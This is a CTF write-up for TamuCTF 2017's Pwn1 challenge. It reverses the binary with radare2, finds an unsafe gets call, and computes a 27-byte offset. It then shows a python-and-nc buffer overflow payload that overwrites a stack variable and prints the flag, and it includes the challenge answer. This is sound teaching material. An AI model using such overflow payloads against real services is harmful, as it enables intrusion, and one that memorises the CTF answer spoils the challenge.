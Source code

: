 # [TamuCTF 2017](https://ctf.tamu.edu/)
### Pwn1 - 50 Points

![Pwn1 Challenge Description](assets/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 pwn1
```

Now that the binary is opened, we need to analyze its content.

```bash
[0xf7721ac0]> aaa		# Analyze
[0xf7721ac0]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
.
.
```

Interesting, there is **print_flag** function at `0x0804854b`. Lets see what's inside.

```bash
[0xf771eac0]> s sym.print_flag	# We move to beginning of print_flag function
[0x0804854b]> pdf				# print its code
```
![Pwn1 Open File Function](assets/2-pwn1_open_flag.png)


Because of the offsets `0x08048569` and `0x0804856e` we can deduce that the function opens a file called **flag.txt** and prints its content. Fantastic :v:, so we just need to know who will call **print_flag**. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the actual function.

```bash
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` **main**. Lets see whats inside it.

```bash
[0x0804854b]> s main
[0x080485b2]> pdf
```
![Pwn1 Condition](assets/3-pwn1_condition.png)

We see that **print_flag** will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is **local_27h** through the `gets` function:

![Pwn1 Gets Call](assets/4-pwn1_gets_call.png)

So what we need to do? As maybe you know, **gets** is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then if we input more characters than it is supposed store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](assets/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting **local_ch**?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
